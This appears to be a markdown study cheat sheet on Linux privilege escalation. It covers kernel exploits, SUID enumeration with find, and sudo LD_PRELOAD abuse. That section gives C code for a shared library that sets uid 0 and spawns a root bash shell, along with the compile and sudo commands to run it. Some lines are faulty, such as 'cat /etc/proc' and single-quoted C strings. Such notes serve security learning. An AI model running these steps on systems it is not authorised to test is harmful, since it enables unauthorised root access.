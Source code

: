 ## Kernel Exploit

1. Identify the kernel version
```bash
uname -r

# read proc file
cat /etc/proc
```
2. Search and find an exploit code for the kernel version of the target system
3. Run the exploit
## Sudo

- Run command to check what program current user can run
```bash
sudo -l
```

	If see `env_keep+=LD_PRELOAD` option, this allow any program to run share library.
	This may lead to spawn a root shell.

- Create a shell with C share library
```C
#include <stdio.h>  
#include <sys/types.h>  
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setgid(0); // group id in system
	setuid(0); // user id in system
	// if group id or user id is not match with the system, it will not working anymore.
	system('/bin/bash');
}
```
```bash
# Compile source code to .so file
gcc -fPIC -shared -o shell.so shell.c -nostartfiles

# run the program with LD_PRELOAD option
$find = _program_name
sudo LD_PRELOAD=/home/user/ldpreload/shell.so $find
```

## SUID

Much of Linux privilege controls rely on controlling the users and files interactions. This is done with permissions. By now, you know that files can have read, write, and execute permissions. These are given to users within their privilege levels. This changes with SUID (Set-user Identification) and SGID (Set-group Identification). These allow files to be executed with the permission level of the file owner or the group owner, respectively.

```bash
# Using find command to show special permission of executable file
find / -type f -perm -04000 -ls 2>/dev/null
```
	Using (https://gtfobins.github.io/)[gTFObins] to get how to run the executable file with SUID available

## Capabilities

## Cron Job

## PATH

## NFS